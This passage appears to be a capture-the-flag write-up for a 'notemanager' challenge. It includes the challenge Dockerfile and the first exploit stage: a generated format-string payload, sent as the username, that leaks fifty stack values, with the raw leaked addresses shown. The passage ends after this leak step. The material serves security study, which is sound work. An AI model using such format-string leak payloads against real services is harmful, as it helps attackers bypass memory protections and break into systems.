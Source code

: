 ```Dockerfile

ENV USERENV=$USER
RUN adduser --disabled-password $USER

WORKDIR /home/${USER}
COPY notemanager ./
COPY flag ./

### ADDED FOR DEBUGGING
RUN echo "source /pwndbg/gdbinit.py" >.gdbinit
RUN echo "set show-tips off" >>.gdbinit
RUN echo "set max-visualize-chunk-size 192" >>.gdbinit
RUN echo "alias gdb='gdb -q'" >.bashrc
RUN echo "export LC_CTYPE=C.UTF-8" >>.bashrc
RUN chown user:user .gdbinit .bashrc

RUN chmod +x ./notemanager
RUN chown root flag
RUN chmod 600 flag

ENTRYPOINT ["socat", "TCP-LISTEN:5000,reuseaddr,fork", "EXEC:\"./notemanager\""]
```

# 1. Leak the addresses

We have full control over format string, so, we can pretty much leak arbitrary thing on stack. Let's see what we actually have:

```
$ for N in `seq 1 50`; do echo -n "$N:0x%$N\$llx "; done
1:0x%1$llx 2:0x%2$llx 3:0x%3$llx 4:0x%4$llx 5:0x%5$llx 6:0x%6$llx 7:0x%7$llx 8:0x%8$llx 9:0x%9$llx 10:0x%10$llx 11:0x%11$llx 12:0x%12$llx 13:0x%13$llx 14:0x%14$llx 15:0x%15$llx 16:0x%16$llx 17:0x%17$llx 18:0x%18$llx 19:0x%19$llx 20:0x%20$llx 21:0x%21$llx 22:0x%22$llx 23:0x%23$llx 24:0x%24$llx 25:0x%25$llx 26:0x%26$llx 27:0x%27$llx 28:0x%28$llx 29:0x%29$llx 30:0x%30$llx 31:0x%31$llx 32:0x%32$llx 33:0x%33$llx 34:0x%34$llx 35:0x%35$llx 36:0x%36$llx 37:0x%37$llx 38:0x%38$llx 39:0x%39$llx 40:0x%40$llx 41:0x%41$llx 42:0x%42$llx 43:0x%43$llx 44:0x%44$llx 45:0x%45$llx 46:0x%46$llx 47:0x%47$llx 48:0x%48$llx 49:0x%49$llx 50:0x%50$llx
```

Trigger the leak:

*    Connect to the server
*    Use above string as "username"
*    Type `u` to change username and look at the output

We get:

```
1:0x7ffdd7ce7050 2:0x7f39597ed8c0 3:0x0 4:0x13 5:0x6 6:0x7ffdd7ce98a0 7:0x100000000 8:0x75000000 9:0x7f39594970ac 10:0x27a 11:0xdb6ec0ab845f2100 12:0x7ffdd7ce97c0 13:0x555c21445680 14:0x7ffdd7ce97c0 15:0x555be4201fcc 16:0x7ffdd7ce98a8 17:0x200000000 18:0x1 19:0x80000000 20:0x555c21445580 21:0x7f3959802660 22:0x7ffdd7ce97d8 23:0x2 24:0x1 25:0x555be420203d 26:0x7f3959810b40 27:0x7263655300000000 28:0x65746f4e207465 29:0xdb6ec0ab845f2100 30:0x7ffdd7ce98a0 31:0x0 32:0x555be4201ff0 33:0x7f3959421c87 34:0x2000000000 35:0x7ffdd7ce98a8 36:0x200000000 37:0x555be4201cf3 38:0x0 39:0xa75fc4b44fdb81ac 40:0x555be4200f30 41:0x7ffdd7ce98a0 42:0x0 43:0x0 44:0xf213a3695f9b81ac 45:0xf39abe70484581ac 46:0x7ffd00000000 47:0x0 48:0x0 49:0x7f39598108d3 50:0x7f39597e7638
```
